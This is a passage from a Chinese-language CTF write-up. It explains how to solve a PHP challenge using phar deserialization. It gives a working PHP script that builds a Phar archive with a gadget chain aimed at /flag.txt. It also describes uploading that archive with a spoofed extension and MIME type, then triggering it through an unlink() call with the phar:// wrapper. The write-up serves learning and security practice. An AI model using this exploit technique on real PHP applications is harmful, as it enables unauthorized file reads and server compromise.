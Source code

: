 由于这里没有unserialize函数进行反序列化，我们可以用phar协议进行反序列化

```
<?php

class User {
    public $db;
}
class FileList {
    private $files;
    public function __construct()
    {
        $this->files = array(new File());
    }
}

class File {
    public $filename = '/flag.txt';
}
$a = new User();
$a->db = new FileList();

@unlink('test.phar');

$phar=new Phar('test.phar');
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($a);
$phar->addFromString("test.txt","test");
$phar->stopBuffering();
?>

```

运行之后，我们可以发现在同级目录下生成了phar文件

![image-20240608184251665](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406081842698.png)

在执行生成phar文件的脚本时候，如果无法正常执行，生成不了新的phar文件，需要修改php.ini中的配置。
在php.ini中，`phar.readonly`默认选项为On，无法生成phar文件要将php.ini中的`phar.readonly`选项设置为Off

我们进行上传，注意要修改文件后缀和type

![image-20240608184441793](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406081844905.png)

![image-20240608184431005](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406081844091.png)

由于class.php的delete方法中有unlink()，可以触发phar反序列化，我们点击删除抓包，用phar协议读取，得到flag

![image-20240608185135300](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406081851358.png)

### 知识点
